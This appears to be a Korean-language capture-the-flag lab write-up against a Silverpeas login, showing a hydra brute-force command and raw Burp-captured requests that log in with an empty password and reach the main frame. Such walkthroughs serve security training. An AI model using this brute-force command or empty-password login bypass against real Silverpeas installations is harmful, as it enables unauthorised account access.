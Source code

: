 hydra -l scr1ptkiddy -P passwords.txt 10.10.157.2 http-post-form \
"/silverpeas/jsp/login.jsp:username=^USER^&password=^PASS^&DomainId=0:Location"

# Google CEV 발견 -> scr1ptkiddy 로그인 시 password 없이 로그인 가능

# 버프 스위트

![](https://velog.velcdn.com/images/agnusdei1207/post/9283f92b-10a8-4cf3-958a-c34c16a86502/image.png)

POST /silverpeas/AuthenticationServlet HTTP/1.1
Host: 10.10.157.2:8080
Content-Length: 38
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.157.2:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10*15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/\_;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.157.2:8080/silverpeas/defaultLogin.jsp
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=ynxIq7QIzMeWyFR1tQ1FZCq9e9DT0Ks1TlnSIJn2.ebabc79c6d2a
Connection: keep-alive

Login=scr1ptkiddy&Password=&DomainId=0

# scr1ptkiddy 인증 됨

GET /silverpeas/Main//look/jsp/MainFrame.jsp HTTP/1.1
Host: 10.10.157.2:8080
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10*15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/\_;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.157.2:8080/silverpeas/defaultLogin.jsp?DomainId=0&ErrorCode=2
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=ynxIq7QIzMeWyFR1tQ1FZCq9e9DT0Ks1TlnSIJn2.ebabc79c6d2a; defaultDomain=0; svpLogin=scr1ptkiddy
Connection: keep-alive

# 접근 가능

![](https://velog.velcdn.com/images/agnusdei1207/post/f8600306-85aa-419e-b879-576bf18e81c8/image.png)
